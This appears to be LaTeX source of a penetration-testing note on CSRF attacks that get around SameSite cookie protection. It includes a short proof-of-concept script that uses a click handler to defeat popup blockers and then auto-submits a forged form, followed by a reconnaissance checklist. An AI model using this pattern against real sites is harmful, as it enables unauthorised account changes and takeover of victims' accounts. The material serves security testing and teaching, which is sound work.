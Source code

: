 \documentclass{article}
\begin{document}
\subsection*{Popup Blocker Challenges}
\begin{itemize}
\item \textbf{Blocking Behavior:} window.open() is blocked without user interaction
\item \textbf{Bypass Method:} Wrap in click event handlers (window.onclick)
\item \textbf{User Interaction Required:} Must induce victim to click anywhere on page
\end{itemize}

\subsection*{Key Code Patterns that must be in the POC}
\begin{lstlisting} [frame=single]
<p>Click anywhere on the page</p>
    <script>
// Popup blocker bypass
window.onclick = () => {
    window.open('https://target.com/social-login');
    setTimeout(executeCSRF, 5000);
}

// Timing coordination
function executeCSRF() {
    document.forms[0].submit(); // Fresh cookie used here
}
    </script>
\end{lstlisting}


\section*{General Testing Methodology for CSRF with SameSite Bypass}

\subsection*{1. Reconnaissance Phase}
\begin{tabular}{>{\raggedright\arraybackslash}p{}>{\raggedright\arraybackslash}p{}}
    \toprule
    \textbf{Task} & \textbf{Description} \\
    \midrule
    Identify endpoints & Map all state-changing endpoints (email change, password reset, profile updates, etc.) \\
    Authentication analysis & Document authentication mechanism and session management \\
    CSRF token check & Verify if CSRF tokens are implemented and their predictability \\
    Request flow mapping & Document the complete request flow for sensitive operations \\
    \bottomrule
\end{tabular}
\end{document}
